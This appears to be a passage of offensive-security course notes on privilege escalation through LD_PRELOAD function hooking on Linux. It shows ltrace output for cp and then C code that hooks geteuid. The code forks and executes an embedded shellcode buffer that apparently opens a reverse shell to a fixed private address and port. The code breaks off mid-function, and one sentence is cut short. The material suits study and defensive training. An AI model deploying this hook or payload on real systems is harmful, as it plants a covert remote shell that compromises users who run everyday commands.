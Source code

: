 # Exploitation via LD_PRELOAD

`LD_PRELOAD` is an environment variable which, when defined on the system, forces the dynamic linking loader to preload a particular shared library before any others. As a result, functions that are defined in this library are used before any with the same method signature that are defined in other libraries.

It also faces the same constraint of not being passed to sudo unless the user’s real UID is the same as their effective

LD_PRELOAD will override methods loaded later on. Overriding methods in this way is a technique known as function hooking.

We can run `ltrace` on a command a user is likely to use more frequently, like the `cp` command to get a list of library function calls it uses during normal operation.
```bash
offsec@linuxvictim:~$ ltrace cp
strrchr("cp", '/') = nil
...
geteuid() = 1000
getenv("POSIXLY_CORRECT") = nil
...
fflush(0x7f717f0c0680) = 0
fclose(0x7f717f0c0680) = 0
+++ exited (status 1) +++
```

We can see that `geteuid` is called once when running the program and thus will not create redundant shells

It takes no parameters and returns the user's UID

We can hook the function as a form of patch to retain original behaviour

We'll use `dlfcn.h`  as it defines functions for interacting with the dynamic linking loader:
```c
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] =
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x05\x39\xc0\xa8"
"\x76\x03\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

uid_t geteuid(void)
{
	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");
	if (fork() == 0)
	{
		intptr_t pagesize = sysconf(_SC_PAGESIZE);
		if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)), pagesize, PROT_READ|PROT_EXEC)) {
				perror("mprotect");
				return -1;
		}
		int (*ret)() = (int(*)())buf;
```